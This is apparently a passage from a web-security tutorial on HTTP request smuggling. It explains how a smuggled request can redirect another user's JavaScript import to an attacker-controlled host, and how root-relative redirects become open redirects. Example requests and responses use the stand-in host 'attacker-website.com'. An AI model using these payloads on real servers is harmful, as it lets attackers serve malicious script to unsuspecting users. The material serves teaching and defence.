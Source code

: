 The smuggled request will trigger a redirect to the attacker's website, which will affect the next user's request that is processed by the back-end server. For example: 
```bash
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```
Here, the user's request was for a JavaScript file that was imported by a page on the web site. The attacker can fully compromise the victim user by returning their own JavaScript in the response

### Turning root-relative redirects into open redirects
In some cases, you may encounter server-level redirects that use the path to construct a root-relative URL for the Location header, for example:
```bash
GET /example HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: /example/
```

This can potentially still be used for an open redirect if the server lets you use a protocol-relative URL in the path:
```bash
GET //attacker-website.com/example HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: //attacker-website.com/example/
```

### Using HTTP request smuggling to perform web cache poisoning
